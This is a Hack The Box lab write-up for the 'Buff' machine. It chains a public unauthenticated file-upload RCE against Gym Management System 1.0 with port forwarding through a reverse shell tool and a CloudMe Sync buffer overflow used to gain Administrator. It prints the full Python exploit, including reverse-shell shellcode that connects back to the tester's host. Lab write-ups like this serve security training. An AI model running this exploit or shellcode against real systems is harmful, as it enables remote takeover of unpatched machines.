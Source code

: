 ```yaml
---
layout: single
title: Buff - Hack The Box
excerpt: "Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access."
date: 2020-11-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-buff/buff_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - buffer overflow
  - cve
  - windows
  - file upload
  - cloudme sync
---
```


![](/assets/images/htb-writeup-intense/intense_logo.png)

Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access.

## Summary

- Use unauthenticated file upload vulnerability in Gym Management System 1.0 to get RCE
- Exploit a buffer overflow vulnerability in the CloudMe Sync application to get RCE as Administrator

## Portscan

![image-20200726162532670](/assets/images/htb-writeup-buff/image-20200726162532670.png)

## Website

There's a PHP web application running on port 8080 and it looks like it's a fitness/gym website.

![image-20200726161829858](/assets/images/htb-writeup-buff/image-20200726161829858.png)

![image-20200726162013695](/assets/images/htb-writeup-buff/image-20200726162013695.png)

![image-20200726162040519](/assets/images/htb-writeup-buff/image-20200726162040519.png)

![image-20200726162116526](/assets/images/htb-writeup-buff/image-20200726162116526.png)

The Contact page shows a possible software name / version which we'll look up on Exploit-DB.

![image-20200726162202199](/assets/images/htb-writeup-buff/image-20200726162202199.png)

Exploit-DB has a match for Gym Management System 1.0. At the bottom of every page on the website we see `projectworlds.in` so it's a fair guess that this is the software running this website.

![image-20200726162258198](/assets/images/htb-writeup-buff/image-20200726162258198.png)

Luckily for us, the exploit is unauthenticated and provides remote execution so we don't need anything else to get started.

```
# Exploit Title: Gym Management System 1.0 - Unauthenticated Remote Code Execution
# Exploit Author: Bobby Cooke
# Date: 2020-05-21
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/
# Version: 1.0
# Tested On: Windows 10 Pro 1909 (x64_86) + XAMPP 7.4.4
# Exploit Tested Using: Python 2.7.17
# Vulnerability Description: 
#   Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.
[...]
```

## Gym Management System exploitation

The exploit provides a nice pseudo-shell which is useful for looking around and running other commands. We can see our initial shell is running as user **Shaun** and that we can get the first flag.

![image-20200726162806589](/assets/images/htb-writeup-buff/image-20200726162806589.png)

## Priv esc

Checking the open ports on the machine, we see there's a MySQL instance running on port 3306 and something else running on port 8888.

![image-20200726163049549](/assets/images/htb-writeup-buff/image-20200726163049549.png)

On Exploit-DB we can find a few vulnerabilities for CloudMe Sync. I've highlighted the exploit I used. The CloudMe Sync software is not compiled with any of the protections enabled like ASLR and DEP so a good old buffer overflow with shellcode executable on the stack will work fine.

![image-20200726185742784](/assets/images/htb-writeup-buff/image-20200726185742784.png)

We'll need to do some port-forwarding to be able to reach port 8888 with our exploit. I could use plink or metasploit to do that but instead I'll use the https://github.com/xct/xc reverse shell tool. I'll transfer the tool with smbclient.py from impacket then rename it to contain my IP address and port. It's an optional feature of xc which is nice in case you can execute a file but can't pass any parameters to it.

![image-20200726184935454](/assets/images/htb-writeup-buff/image-20200726184935454.png)

After catching the reverse shell with xc, we'll use the `!portfwd` command to redirect port 8888 on our local machine to port 8888 on the remote box.

![image-20200726185112725](/assets/images/htb-writeup-buff/image-20200726185112725.png)

Next, we'll generate a shellcode that'll spawn a reverse shell. The output is in Python3 format (it contains the b before the string indicating it's a byte type). I'll clean that up and rename buf to shellcode and stick it in the downloaded exploit.

![image-20200726185959460](/assets/images/htb-writeup-buff/image-20200726185959460.png)

Final exploit shown below:

```python
#######################################################
# Exploit Title: Local Buffer Overflow on CloudMe Sync v1.11.0
# Date: 08.03.2018
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1110.exe
# Category: Local
# Exploit Discovery: Prasenjit Kanti Paul
# Web: http://hack2rule.wordpress.com/
# Version: 1.11.0
# Tested on: Windows 7 SP1 x86
# CVE: CVE-2018-7886
# Solution: Update CloudMe Sync to 1.11.2
#######################################################

#Disclosure Date: March 12, 2018
#Response Date: March 14, 2018
#Bug Fixed: April 12, 2018

# Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

import socket

target="127.0.0.1" 

junk="A"*1052

eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

shellcode =  ""
shellcode += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
shellcode += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
shellcode += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
shellcode += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x15\x68"
shellcode += "\x02\x00\x15\xb3\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
shellcode += "\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
shellcode += "\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
shellcode += "\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
shellcode += "\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
shellcode += "\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
shellcode += "\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += "\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
shellcode += "\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
shellcode += "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

payload=junk+eip+shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
```

The exploit triggers the buffer overflow, executes our shellcode and spawn a reverse shell which we catch with a netcat listener.

![image-20200726190204674](/assets/images/htb-writeup-buff/image-20200726190204674.png)
